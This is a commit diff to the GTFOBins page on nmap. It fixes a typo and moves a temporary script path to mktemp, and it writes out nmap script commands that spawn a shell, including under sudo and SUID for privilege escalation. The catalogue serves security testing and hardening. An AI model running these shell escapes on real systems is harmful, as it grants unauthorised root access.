

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/nmap.md, in a window 1280 px wide. Shown: the whole page at 96% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 974 px from its top, so only the background shows below that.

Commit message:
Fix nmap description and temporary file

```diff
--- a/_gtfobins/nmap.md
+++ b/_gtfobins/nmap.md
@@ -1,18 +1,21 @@
 ---
 functions:
-  execute-non-interactive:
-    - description: Echoing of input characters3ers is disabled.
+  execute-interactive:
+    - description: Echoing of input characters is disabled.
       code: |
-        echo 'os.execute("/bin/sh")' > /tmp/script.nse
-        nmap --script=/tmp/script.nse
+        TF=$(mktemp)
+        echo 'os.execute("/bin/sh")' > $TF
+        nmap --script=$TF
   sudo-enabled:
-    - description: Echoing of input characters3ers is disabled.
+    - description: Echoing of input characters is disabled.
       code: |
-        echo 'os.execute("/bin/sh")' > /tmp/script.nse
-        sudo nmap --script=/tmp/script.nse
+        TF=$(mktemp)
+        echo 'os.execute("/bin/sh")' > $TF
+        sudo nmap --script=$TF
   suid-enabled:
-    - description: Echoing of input characters3ers is disabled.
+    - description: Echoing of input characters is disabled.
       code: |
-        echo 'os.execute("/bin/sh -p")' > /tmp/script.nse
-        ./nmap --script=/tmp/script.nse
+        TF=$(mktemp)
+        echo 'os.execute("/bin/sh -p")' > $TF
+        ./nmap --script=$TF
 ---
```
